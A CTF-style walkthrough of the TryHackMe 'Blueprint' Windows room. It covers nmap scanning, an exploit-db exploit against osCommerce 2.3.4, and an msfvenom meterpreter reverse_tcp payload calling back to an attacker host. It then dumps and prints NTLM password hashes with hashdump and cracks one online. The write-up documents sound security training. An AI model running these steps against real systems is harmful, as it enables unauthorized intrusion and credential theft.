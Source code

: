 ```yaml
---

title: Walkthrough - Blueprint
published: true
---
```


Security, Windows. Hack into this Windows machine and escalaye privileges to admin.

![0xskar](/assets/blueprint01.png)

[https://tryhackme.com/room/blueprint](https://tryhackme.com/room/blueprint)

* * *

## Notes

- ``sudo nmap -Pn -sS -p- -T4 10.10.226.32 -vvv``

```
PORT      STATE SERVICE      REASON
80/tcp    open  http         syn-ack ttl 125
135/tcp   open  msrpc        syn-ack ttl 125
139/tcp   open  netbios-ssn  syn-ack ttl 125
443/tcp   open  https        syn-ack ttl 125
445/tcp   open  microsoft-ds syn-ack ttl 125
3306/tcp  open  mysql        syn-ack ttl 125
8080/tcp  open  http-proxy   syn-ack ttl 125
49152/tcp open  unknown      syn-ack ttl 125
49153/tcp open  unknown      syn-ack ttl 125
49154/tcp open  unknown      syn-ack ttl 125
49158/tcp open  unknown      syn-ack ttl 125
49159/tcp open  unknown      syn-ack ttl 125
49160/tcp open  unknown      syn-ack ttl 125
```

- ``sudo nmap -sV -sT -sC -p80,135,139,443,445,3306,8080,49152,49153,49154,49158,49159,49160 10.10.226.32``

```
PORT      STATE SERVICE      VERSION
80/tcp    open  http         Microsoft IIS httpd 7.5
|_http-server-header: Microsoft-IIS/7.5
|_http-title: 404 - File or directory not found.
| http-methods: 
|_  Potentially risky methods: TRACE
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
443/tcp   open  ssl/http     Apache httpd 2.4.23 (OpenSSL/1.0.2h PHP/5.6.28)
|_http-title: Bad request!
| tls-alpn: 
|_  http/1.1
|_http-server-header: Apache/2.4.23 (Win32) OpenSSL/1.0.2h PHP/5.6.28
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=localhost
| Not valid before: 2009-11-10T23:48:47
|_Not valid after:  2019-11-08T23:48:47
445/tcp   open  microsoft-ds Windows 7 Home Basic 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
3306/tcp  open  mysql        MariaDB (unauthorized)
8080/tcp  open  http         Apache httpd 2.4.23 (OpenSSL/1.0.2h PHP/5.6.28)
|_http-server-header: Apache/2.4.23 (Win32) OpenSSL/1.0.2h PHP/5.6.28
|_http-title: Index of /
| http-methods: 
|_  Potentially risky methods: TRACE
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49158/tcp open  msrpc        Microsoft Windows RPC
49159/tcp open  msrpc        Microsoft Windows RPC
49160/tcp open  msrpc        Microsoft Windows RPC
Service Info: Hosts: www.example.com, BLUEPRINT, localhost; OS: Windows; CPE: cpe:/o:microsoft:windows
```

Port 8080 has an osCommerce site version 2.3.4. searchsploit oscommerce 2.3.4. ``locate 50128`` and lets try to run this exploit. 

- ``python3 ~/exploitdb/exploits/php/webapps/50128.py http://10.10.22.83:8080/oscommerce-2.3.4/catalog``

![0xskar](/assets/blueprint02.png)

- ``whoami /priv`` can see SeImpersonatePrivilege is Enabled.

- ``wmic useraccount get name`` give us Administrator, Guest, and ``Lab`` users.

- unfortuneatly this shell doesnt let us too much so lets look at 43191.py which is an Arbitraty File Upload. ``locate 43191.py`` and should let us upload a windows php revshell.

Using ``multi/http/oscommerce_installer_unauth_code_exec`` in ``msfconsole`` we can upload and execute a revshell ``msfvenom -p windows/meterpreter/reverse_tcp  LHOST=10.2.127.225 LPORT=5555 -f exe > winshell.exe``

Start up a second msfvenom console and start multi handler listener to get a stable shell. ``hashdump`` to dump user creds.

```
Administrator:500:aad3b435b51404eeaad3b435b51404ee:549a1bcb88e35dc18c7a0b0168631411:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Lab:1000:aad3b435b51404eeaad3b435b51404ee:30e87bf999828446a1c1209ddde4c450:::
```

* * * 

## "Lab" user NTML hash decrypted

- crackstation.net

* * * 

## root.txt

![0xskar](/assets/blueprint03.png)

* * * 

